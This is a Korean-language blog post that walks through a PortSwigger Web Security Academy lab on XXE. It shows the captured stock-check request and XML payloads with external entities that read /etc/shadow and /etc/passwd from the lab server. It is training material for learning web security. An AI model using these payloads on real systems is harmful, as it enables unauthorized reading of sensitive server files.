 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting XXE using external entities to retrieve files"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 문제명: Exploiting XXE using external entities to retrieve files
- XXE (XML external entity) 공격에 대한 실습 문제이다. 
- XXE의 기본적인 패턴 중 하나의 시스템 파일 읽기를 실습할 수 있다. 
- 주소: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
- 난이도: APPRENTICE (쉬움)
- XXE에 대한 기본적인 내용은 [여기](https://portswigger.net/web-security/xxe){:target="_blank"} 에서 확인가능하다. 


# 문제분석
- Check stock 기능은 XML 입력을 파싱한 결과를 (에러를 포함해서) 돌려준다고 한다. 
- XML external entity 공격 페이로드를 삽입해서 /etc/passwd 파일의 내용을 읽으면 문제가 풀린다.

```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```

# 풀이 
## 취약점이 있는 곳 찾기
상품 상세 페이지에서 `Check stock` 버튼이 있는 것을 찾았다. 

![Check stock기능](/images/burp-academy-xxe-1-1.png)

버튼을 클릭하면 다음 요청이 전송된다. 

```http
POST /product/stock HTTP/1.1
Host: 0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Cookie: session=1uOtwtnBX2Udo4b3VfYEXUpYiZuR7xja
Content-Length: 107
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7onnection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

HTTP 응답은 다음과 같다. 

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 2

94
```

POST 요청의 XML 바디 부분에 XXE 공격 페이로드를 넣으면 될 것 같다. 

## 1차 시도 
[XXE 페이로드](https://github.com/payloadbox/xxe-injection-payload-list){:target="_blank"}
를 참고해서 
`<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>` 를 추가해서 보내봤다. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY foo SYSTEM "file:///etc/shadow"> ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

200 응답이 되돌아왔다. 뭔가 잘못된 것 같다. 

## 2차 시도 
아, 페이로드에 `&foo;` 로 출력해주는 부분이 없었다. 다음 페이로드로 시도해보자 /etc/passwd의 내용을 확인할 수 있었다. 

```xml
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&foo;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Burp Suite Repeater로 확인한 모습 
![Check stock기능](/images/burp-academy-xxe-1-3.png)

성공! 
![Check stock기능](/images/burp-academy-xxe-1-2.png)